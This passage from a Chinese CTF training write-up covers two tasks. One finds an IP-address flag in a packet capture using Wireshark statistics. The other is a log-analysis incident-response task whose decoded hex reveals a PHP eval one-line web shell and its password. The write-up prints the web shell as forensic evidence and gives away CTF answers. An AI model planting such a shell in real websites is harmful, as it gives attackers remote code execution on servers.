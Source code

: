 解压后得到一个流量包，使用wireshark打开后“统计——>IPv4 Statistics——>All address

![](./imgs/20250120集训_流量包.png)

得到flag

>NSSCTF{192.168.246.28}

#### [应急响应]welog1

题目：
>请根据日志分析攻击者写入的木马的连接密码，提交格式为：flag{xxxxx}

先手盲猜一波一句话木马，解压文件得到log日志

查看日志发现异常：

![](./imgs/20250120集训_异常.png)

发现一些十六进制内容，将其转成ascii得到
```php
<?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>
```

